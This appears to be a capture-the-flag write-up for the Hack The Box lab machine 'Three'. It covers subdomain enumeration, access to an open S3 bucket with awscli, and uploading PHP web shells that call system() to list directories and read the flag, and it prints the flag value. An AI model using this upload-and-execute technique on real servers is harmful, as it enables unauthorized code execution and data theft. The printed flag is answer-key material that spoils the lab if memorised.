








# Three
Starting Point - Tier 1

### 1. How many TCP ports are open?


From the results of `nmap`, we can see two ports open.

### 2. What is the domain of the email address provided in the "Contact" section of the website?
`thetoppers.htb`

### 3. In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
`/etc/hosts`

### 4. Which sub-domain is discovered during further enumeration?
Using a list of 5000 common subdomains from the top 1 million subdomains from [SecLists](https://github.com/danielmiessler/SecLists) combined with `gobuster`:

> ```sh
> gobuster vhost -u http://thetoppers.htb -w subs.txt --append-domain
> ```

We get the following:



The `s3.thetoppers.htb` subdomain is discovered.

### 5. Which service is running on the discovered sub-domain?
Amazon S3

### 6. Which command line utility can be used to interact with the service running on the discovered sub-domain?
`awscli`

### 7. Which command is used to set up the AWS CLI installation?
`aws configure`

### 8. What is the command used by the above utility to list all of the S3 buckets?
`aws s3 ls`

### 9. This server is configured to run files written in what web scripting language?
`PHP`

## Flag
Using `aws`, we can set our default endpoint URL to the target host and list out all buckets:

> `aws --endpoint-url http://s3.thetoppers.htb/ s3 ls`

Doing so gives us the following:

> `2026-11-05 03:10:44 thetoppers.htb`

This means that they only have one bucket called `thetoppers.htb`:



We see some interesting files, such as `.htaccess`, which is the Apache directory configuration file. So, we can download this using `aws`:

> `aws --endpoint-url http://s3.thetoppers.htb s3 sync s3://thetoppers.htb/ ./thetoppers`

Once I had the files, I noticed that `cat .htaccess` returned nothing, meaning this directive file was empty. This means that it probably still runs the default directive that `.php` files should be interpreted as PHP files rather than plaintext to be served over HTTP.

Immediately, I tested if I could push files **onto** the bucket:





As seen, it actually succeeded! Now the plan was simple: 
1. Upload a PHP file onto the bucket which uses `system()` to retrieve `/var/www/`
2. Retrieve it using the webpage (which will execute it) 
3. Find the flag.

When I tried to retrieve `subs.txt` as a URI path on the original server, it seems that it's automatically routed to the bucket, which makes my life a lot easier:



Now, all I had to do was make the script. Let's go with the following for now:

> ```php
> <?php system('ls /var/www/') ?>
> ```

Uploading this to the bucket and sending a `GET` request for it yields:



Okay, not a surprise that it's called `flag.txt`. Let's replace that PHP file with the following now:

> ```php
> <?php system('cat /var/www/flag.txt') ?>
> ```



Looks like the random numbers are certain parameters from it being stored in an S3 bucket. Nevertheless, we now have the flag!

`a980d99281a28d638ac68b9bf9453c2b`

## Solved!
